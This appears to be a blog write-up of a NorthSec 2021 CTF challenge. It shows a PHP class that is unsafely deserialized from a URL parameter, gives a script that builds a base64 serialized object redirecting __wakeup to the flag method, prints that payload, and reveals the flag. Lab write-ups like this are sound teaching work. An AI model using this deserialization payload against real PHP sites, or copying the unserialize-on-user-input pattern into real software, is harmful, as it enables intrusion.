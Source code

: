 ```yaml
---
layout: post
title: NorthSec 2021 Writeup - Wizard Hackademy - Spellrialize
date: 2021-05-24
type: post
tags:
- Writeup
- Hacking
- NorthSec
- CTF
permalink: /2021/05/NorthSec2021WriteupSpellrialize/
---
```


This is another challenge of the beginer's track at the [Northsec CTF of 2021](https://nsec.io/competition/). The challenge show a simple 'Hello World!' web site, with a link to download the source code.

![Challenge Site](/assets/images/2021/05/NorthSec/WizardHackademy/Spellrialize/site.png)

I download the code and looked at it. I don't have the original code anymore, but it uses the following class.

```php
<?php
class Hckademy{
    private $call = "WelcomeMessage";

    public function __construct() {

    }

    public function __wakeup(){
        $this->{$this->call}();
    }

    public function WelcomeMessage(){
        echo "Hello World!";
    }

    public function castFlag(){
        echo "FLAG-xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";
    }
}
```

The code would serialize the class, base64 encode it and then add the resulting string to the URL. 

```
http://chal6.wizard-hackademy.ctf/?s=Tzo4OiJIY2thZGVteSI6MTp7czoxNDoiAEhja2FkZW15AGNhbGwiO3M6MTQ6IldlbGNvbWVNZXNzYWdlIjt9
```

If the `s` parameter was present in the query, it will base64 decode it and deserialize it. This is the interesting part. When a PHP class is deserialized, the [__wakeup method](https://www.php.net/manual/en/language.oop5.magic.php#object.wakeup) is called. 

In the provided class, the method calls the method identified in the `$call` properties. We cannot modified the `__wakeup` method. But we can control the value of a properties. 

So I took the class and modified the `$call` property to contain `castFlag` instead of `WelcomeMessage`. This way on deserialization, the `castFlag` method will be called and it will print the flag. 

```php
<?php
class Hckademy{
    //private $call = "WelcomeMessage";
    private $call = "castFlag";

    public function __construct() {

    }

    public function __wakeup(){
        $this->{$this->call}();
    }

    public function WelcomeMessage(){
        echo "Hello World!";
    }

    public function castFlag(){
        echo "FLAG-xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";
    }
}

$a = new Hckademy();
echo(base64_encode(serialize($a)));
```

I executed the code, it gave me this output:

```
Tzo4OiJIY2thZGVteSI6MTp7czoxNDoiAEhja2FkZW15AGNhbGwiO3M6ODoiY2FzdEZsYWciO30=
```

I used it in the URL as the s parameter and the flag was displayed on the page.

![Site With Flag](/assets/images/2021/05/NorthSec/WizardHackademy/Spellrialize/withFlag.png "Site With Flag")

Flag: FLAG-2ec92b2494b7c6c7e84da26cfb7d641a